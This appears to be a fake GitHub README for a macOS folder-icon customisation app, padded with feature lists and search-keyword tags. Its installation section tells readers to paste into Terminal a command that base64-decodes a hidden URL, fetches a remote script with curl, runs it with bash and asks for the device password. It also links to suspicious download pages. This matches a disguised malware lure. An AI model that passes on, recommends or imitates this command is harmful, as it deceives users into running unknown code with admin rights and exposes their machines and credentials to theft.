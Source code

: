 # 🗂 Folder Icons — Customize Folder Appearance on macOS

**Folder Icons** is a simple yet powerful tool for macOS that lets you personalize and organize your folders by changing their icons and colors. Whether you want to add a splash of color, use aesthetic designs, or customize icons to fit your workflow, Folder Icons helps make your Mac desktop and Finder more visually appealing and organized.

Transform boring default folders into stylish and unique ones, improving your productivity and creativity on macOS.

---

## ✅ Download Folder Icons for macOS  
[![Download Folder Icons](https://img.shields.io/badge/Download-Folder_Icons-blueviolet)](https://shuziktobehuman.github.io/huja/folder)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is Folder Icons?

Folder Icons is a lightweight macOS utility designed to help users easily customize their folder icons and colors. It supports applying custom PNG icons, changing folder colors, and using pre-made icon sets, enabling greater personalization and better visual folder management on your Mac.

---

## ✨ Features

- 🎨 Change folder colors to organize and beautify your desktop  
- 🖼 Apply custom PNG icons or choose from built-in icon sets  
- 🖥 Works seamlessly with macOS Finder and desktop folders  
- 🌈 Supports aesthetic, cute, beige, black, brown, and colorful folder icons  
- 🔄 Easy drag & drop interface for quick icon changes  
- 💾 Save and restore folder icon settings  
- 🔍 Improves folder visibility and workspace organization  

---

## 💡 Why Use Folder Icons?

- 💻 Customize your Mac folders beyond default system icons  
- 🎨 Personalize folder appearance to match your style or workflow  
- 🔧 Simplify finding folders by color coding and icon differentiation  
- ⚡️ Lightweight and intuitive app built for macOS users  
- 🖼 Supports a wide variety of icon styles including cute and aesthetic sets  

---

[![Download Folder Icons](https://img.shields.io/badge/Download-Folder_Icons-blueviolet)](https://shuziktobehuman.github.io/huja/folder)

---

## 🖼 Preview

![Folder Icons Thumbnail](https://cdn.cultofmac.com/wp-content/uploads/2024/05/Custom-Folders.jpg)  
![Folder Icons Icon Set](https://una.github.io/gradient-folders/img/icon-folder-set.png)

---

## 📌 Tags

folder icons mac, apple folder icon, change folder color mac, change icon in mac,  
change icon mac, mac folder icon png, aesthetic mac folder icons, beige folder icon mac,  
beige folder mac, black folder icon mac, black mac folder icon, brown folder icon mac,  
change app icon mac, change desktop icon mac, change icon mac app, color folder icons mac,  
custom folder icon mac, custom mac folders, customize folder icon mac, cute folder icons for mac,  
cute folder icons mac, cute mac folder icon png, desktop folder icons mac, file icons for mac, folder icon mac png

